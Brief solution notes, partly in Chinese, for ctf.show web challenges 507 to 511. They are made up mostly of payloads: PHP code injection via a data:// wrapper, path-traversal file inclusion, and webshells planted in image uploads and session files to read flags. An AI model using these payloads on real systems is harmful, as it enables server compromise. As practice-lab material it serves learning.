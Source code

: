 

# web507

```
http://6714dbd4-2c22-493e-827c-fd1872aefe06.challenge.ctf.show:8080/api/admin_file_view.php
post
debug=1&f=data://test/palin,user<?php+system("cat /flag_is_here_dota");
```

# web508

```
http://74efad91-d13e-4da9-8c92-b94a44a08c2c.challenge.ctf.show:8080/api/admin_file_view.php?1=cat /flag_is_here_dota2
post数据
debug=1&f=../../../../../../../../../../../var/www/html/img/f3ccdd27d2000e3f9255a7e3e2c48800.jpg
```

# web509

```
在系统配置的文件上传处，上传图片，内容为user<?=`$_GET[1]`;
之后访问http://b48fa450-ca3e-4fb8-a5f5-53f32d9c5a0c.challenge.ctf.show:8080/api/admin_file_view.php?1=cat /flag_is_here_lol
post数据
debug=1&f=../../../../../../../../var/www/html/img/f3ccdd27d2000e3f9255a7e3e2c48800.jpg

```

# web510

```
刚好比较巧妙的是session目录开头就是user
第一步登陆，然后去个人资料设置那里修改头像内容为<?php system($_GET[1]);?>，因为avator属性不限制长度
第二步http://051847d1-1347-4670-b312-6df487623d9a.challenge.ctf.show:8080/api/admin_file_view.php?1=cat /f*
post数据，sess_后面的那串是你在cookie当中phpseesid的值
debug=1&f=../../../../../../../../../../tmp/sess_6kl7kq5mtlhj06sovlohpmmij7

```

# web511

上传new.sml

```
123{{var:nickname}}
```

然后去个人资料修改显示昵称为`cat /f*`
